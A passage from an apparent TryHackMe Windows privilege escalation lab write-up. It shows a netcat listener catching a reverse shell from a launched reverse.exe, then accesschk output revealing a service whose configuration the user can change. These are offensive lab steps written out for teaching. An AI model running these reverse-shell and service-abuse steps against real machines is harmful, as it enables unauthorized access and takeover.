 Spawn netcat listener:

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ nc -nvlp 4444
listening on [any] 4444 ...
```

Launch exe:

```
C:\Users\user>c:\privesc\reverse.exe

C:\Users\user>
```

Enjoy your shell:

```bash
connect to [10.8.100.14] from (UNKNOWN) [10.10.174.134] 49729
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\user>whoami
whoami
win-qba94kb3iof\user

C:\Users\user>
```


## insecure service permissions


Note: `accesschk.exe` is part of Sysinternals Suite:

https://learn.microsoft.com/it-it/sysinternals/

Let's check service "daclsvc":

```bash
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

`-u` : Suppress errors

`-w`: Show only objects that have write access

`-c`: Name is a Windows Service, e.g. `ssdpsrv`. Specify `"*"` as the name to show all services and `scmanager` to check the security of the Service Control Manager.
